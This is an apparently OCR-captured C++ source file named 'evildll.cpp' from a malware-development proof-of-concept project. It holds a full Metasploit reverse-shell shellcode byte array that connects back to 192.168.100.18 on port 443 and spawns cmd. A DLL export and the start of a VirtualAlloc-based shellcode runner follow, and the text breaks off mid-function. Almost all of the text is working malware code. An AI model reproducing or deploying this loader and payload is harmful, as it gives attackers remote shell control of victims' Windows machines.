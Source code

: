 - Script PoC-maldev/evildll.cpp
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Msfconsole reverse shell shellcode generetad with: LHOST=192.168.100.18, LPORT=443, generate -f c -o shellcode.bin
unsigned char shellcodePayload[460] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x49,
	0xBE, 0x77, 0x73, 0x32, 0x5F, 0x33, 0x32, 0x00, 0x00, 0x41, 0x56, 0x49,
	0x89, 0xE6, 0x48, 0x81, 0xEC, 0xA0, 0x01, 0x00, 0x00, 0x49, 0x89, 0xE5,
	0x49, 0xBC, 0x02, 0x00, 0x01, 0xBB, 0xC0, 0xA8, 0x64, 0x12, 0x41, 0x54,
	0x49, 0x89, 0xE4, 0x4C, 0x89, 0xF1, 0x41, 0xBA, 0x4C, 0x77, 0x26, 0x07,
	0xFF, 0xD5, 0x4C, 0x89, 0xEA, 0x68, 0x01, 0x01, 0x00, 0x00, 0x59, 0x41,
	0xBA, 0x29, 0x80, 0x6B, 0x00, 0xFF, 0xD5, 0x50, 0x50, 0x4D, 0x31, 0xC9,
	0x4D, 0x31, 0xC0, 0x48, 0xFF, 0xC0, 0x48, 0x89, 0xC2, 0x48, 0xFF, 0xC0,
	0x48, 0x89, 0xC1, 0x41, 0xBA, 0xEA, 0x0F, 0xDF, 0xE0, 0xFF, 0xD5, 0x48,
	0x89, 0xC7, 0x6A, 0x10, 0x41, 0x58, 0x4C, 0x89, 0xE2, 0x48, 0x89, 0xF9,
	0x41, 0xBA, 0x99, 0xA5, 0x74, 0x61, 0xFF, 0xD5, 0x48, 0x81, 0xC4, 0x40,
	0x02, 0x00, 0x00, 0x49, 0xB8, 0x63, 0x6D, 0x64, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x41, 0x50, 0x41, 0x50, 0x48, 0x89, 0xE2, 0x57, 0x57, 0x57, 0x4D,
	0x31, 0xC0, 0x6A, 0x0D, 0x59, 0x41, 0x50, 0xE2, 0xFC, 0x66, 0xC7, 0x44,
	0x24, 0x54, 0x01, 0x01, 0x48, 0x8D, 0x44, 0x24, 0x18, 0xC6, 0x00, 0x68,
	0x48, 0x89, 0xE6, 0x56, 0x50, 0x41, 0x50, 0x41, 0x50, 0x41, 0x50, 0x49,
	0xFF, 0xC0, 0x41, 0x50, 0x49, 0xFF, 0xC8, 0x4D, 0x89, 0xC1, 0x4C, 0x89,
	0xC1, 0x41, 0xBA, 0x79, 0xCC, 0x3F, 0x86, 0xFF, 0xD5, 0x48, 0x31, 0xD2,
	0x48, 0xFF, 0xCA, 0x8B, 0x0E, 0x41, 0xBA, 0x08, 0x87, 0x1D, 0x60, 0xFF,
	0xD5, 0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D,
	0xFF, 0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB,
	0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41,
	0x89, 0xDA, 0xFF, 0xD5
};

unsigned int lengthOfshellcodePayload = sizeof(shellcodePayload);

extern __declspec(dllexport) int Go(void);
int RunShellcode(void) {
	
	void * alloc_mem;
	BOOL retval;
	HANDLE threadHandle;
	DWORD oldprotect = 0;

	alloc_mem = VirtualAlloc(0, lengthOfshellcodePayload, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

```